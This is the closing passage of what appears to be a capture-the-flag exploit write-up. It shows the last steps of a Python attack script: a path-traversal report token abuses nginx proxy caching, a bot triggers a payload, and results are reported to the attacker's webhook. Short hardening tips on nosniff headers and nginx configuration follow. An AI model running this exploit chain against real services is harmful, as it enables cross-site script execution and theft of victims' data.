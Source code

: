 ```python
    result = subprocess.run(
        command,
        capture_output=True,
        text=True,
        check=False
    )
    print(result.stdout)

    # --- Step 7: Report/Share to trigger the chain. We can use just ".js" now, since the file is cached and fragment is ignored in the proxy_cache_key ---
    print("\n[6] Sending report to trigger the payload...")
    report_token = f"../files/upload/{user_id}/{html_id}.js"
    report_payload = {"token": report_token, "reason": "asdf"}
        
    report_url = f"{API_URL}/share/report"
    r = s.post(report_url, json=report_payload, timeout=5)
    r.raise_for_status()
    print(f"[+] Report sent successfully! Status: {r.status_code}")
    print(f"    Response: {r.text}")
    print("\n[*] Script finished. Check your webhook URL for results.")

if __name__ == "__main__":
    main()
```

---

## Final Notes

- Remember to include `X-Content-Type-Options: nosniff` in server response headers,
- Pay special attention to nginx configuration.


XOXO,

VXXDXX